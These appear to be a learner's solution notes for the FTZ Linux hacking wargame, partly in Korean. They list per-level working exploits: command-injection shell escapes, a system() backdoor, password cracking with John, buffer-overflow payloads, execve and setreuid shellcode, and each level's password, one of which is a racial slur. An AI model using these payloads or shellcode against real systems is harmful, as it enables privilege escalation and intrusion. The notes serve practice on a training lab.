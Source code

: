[FTZ] 
ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -c aes128-cbc trainer3@192.168.171.2

LEVEL2: vi => :sh
pwd: can you fly?

LEVEL3: ;/bin/sh;
pwd: suck my brain

LEVEL4: backdoor.c 파일 (system(“my-pass”) 실행) -> 
backdoor 실행 파일 생성 -> finger level4@localhost
pwd: what is your name?

LEVEL5: level5.tmp.c 파일 (system(“my-pass”) 실행) -> level.tmp 실행 파일 생성 -> /usr/bin/level5 실행 -> cat /tmp/level5.tmp
pwd: what the hell

LEVEL6: 힌트 나오고 바로 Ctrl + C 
pwd; come together

LEVEL7: wrong.txt 없음 

LEVEL8: 
1.	find / -size 2700c 2> /dev/null 
2.	cat /etc/rc.d/found.txt
3.	Use John cracking (John passwd) 
pwd: apple

LEVEL9: (python -c 'print("go" * 20)'; cat) | /usr/bin/bof ;
pwd: interesting to hack!

LEVEL10: level10_exploit.c 
pwd: what!@#$?
 
LEVEL11: ./attackme `python -c 'print "\x90" * 268 + "\xe0\xfc\xff\xbf"+"\x90" * 20000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
pwd: it is like this

무한 루프: while [ 1 ] ; do _______; done
=> \xe0\xdb\xff\xbf

LEVEL12: (python -c ‘print “A” * 268 + “환경변수 저장 주소”’;cat) | ./attackme 

pwd: have no clue

export SHELLCODE=`python -c 'print "\x90" * 15 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

exploit.c 
#include <stido.h>
#include <stdlib.h>

int main(void) { 
	printf(“0x%x\n”, getenv(“SHELLCODE”));
}

LEVEL13: `python -c 'print "A" * 1036 + "\x67\x45\x23\x01" + "A" * 12 + "환경변수 저장 주소"'`
pwd: what that nigga want?

LEVEL14: (python -c 'print "A" * 40 + "\xef\xbe\xad\xde"' ; cat) | ./attackme
pwd: guess what

0x38 -> 56 
0xfffffff0 -> ebp- 16
buf(20) + Dummy (20) +  check(4) 

LEVEL15: (python -c 'print "A" * 40 + "\xb2\x84\x04\x08"';cat) | ./attackme 
pwd: about to cause mass
0xdeadbeef 값을 가지고 있는 주소를 가리키도록 

LEVEL16: (python -c 'print "A" * 40 + "\xd0\x84\x04\x08"'; cat) | ./attackme
pwd: king poetic

0x38 = 56 
ebp -16: 56 - 16 = 40 ( 41번째에 shell address 넣으면 됨) 
0x080484d0 => shell function address  
0x08048500 => printit function address 

LEVEL17: (python -c 'print "A" * 40 + "\xb7\xfd\xff\xbf"'; cat) | ./attackme
pwd: why did you do it
환경변수 활용 

LEVEL18: (python -c 'print "\x08" * 4 + "\xef\xbe\xad\xde"'; cat) | ./attackme
pwd: swimming in pink

LEVEL19: (python -c 'print "A" * 44 + "\xa9\xfd\xff\xbf"';cat) | ./attackme
pwd: we are just regular guys
setreuid + SHELLCODE
setreuid 쉘 코드 만들기 
우선 level20으로 가는 아이디 값 찾기 (cat /etc/passwd)
/usr/include/asm/unistd.h -> syscall 번호 찾기 


.global main

main:
        #setreuid(3100,3100)
        xor     %eax, %eax
        mov     $0x46, %al  # 70 setreuid syscall
        mov     $0xc1c, %bx # 3100
        mov     $0xc1c, %cx # 3100
        int     $0x80

objdump -d setreuid | grep -A5 “main”
(Setreuid SHELLCODE)
=> \x31\xc0\xb0\x46\x66\xbb\x1c\x0c\x66\xb9\x1c\x0c\xcd\x80


setreuid + SHELLCODE 환경변수 지정

export SHELLCODE=`python -c 'print "\x90" * 15 + "\x31\xc0\xb0\x46\x66\xbb\x1c\x0c\x66\xb9\x1c\x0c\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

LEVEL20: 


